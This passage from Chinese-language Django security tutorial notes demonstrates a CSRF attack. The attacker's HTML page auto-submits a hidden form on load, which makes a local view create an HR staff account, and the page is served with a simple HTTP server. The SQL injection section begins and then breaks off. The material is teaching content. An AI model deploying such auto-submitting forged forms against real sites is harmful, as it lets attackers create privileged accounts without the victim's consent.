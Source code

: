             hr_group = Group.objects.get(name='hr') 
            user = User(is_superuser=False, username=username, is_active=True, is_staff=True)
            user.set_password(password)
            user.save()
            user.groups.add(hr_group)

            messages.add_message(request, messages.INFO, 'user created %s' % username)
            return render(request, 'create_hr.html')
        return render(request, 'create_hr.html')
    ```

    在 `jobs/urls` 中添加 url：

    ```python
    urlpatterns = [
        # 管理员创建 HR 账号的 页面:
        path('create_hr_user/', views.create_hr_user, name='create_hr_user'),
    ]
    ```

    黑客创建页面 `interesting.html`：

    ```html
    <html>
        <body onload='document.EvilForm.submit()'>

        <form action="http://127.0.0.1:8000/create_hr_user/" method="post" name='EvilForm'>
            <h2>Create a new HR account </h2>

        <table>
            <tr><th><label for="id_first_name">First name:</label></th><td><input id="id_first_name" maxlength="100" name="username" type="text" value="Lily" required /></td></tr>
            <tr><th><label for="id_password">Last name:</label></th><td><input id="id_password" maxlength="100" name="password" type="password" value="Lily34567" required /></td></tr>
            <tr><th><label for="id_password_retype">Last name:</label></th><td><input id="id_password_retype" maxlength="100" name="password_retype" type="password" value="Lily34567" required /></td></tr>

        </table>
        <input type="submit" value="Submit" />
        </form>

    </body>
    </html>
    ```

    黑客启动服务：

    ```bash
    python -m http.server 7000
    ```

- SQL 注入攻击
  - SQL 注入漏洞：攻击者直接对网站数据库执行任意 SQL 语句，在无需用户权限的情况下即可实现对数据的访问、修改甚至是删除。
  - Django 的 ORM 系统自动规避了 SQL 注入攻击。
  - 原始 SQL 语句。切记避免拼接字符串，这是错误的调用方式：
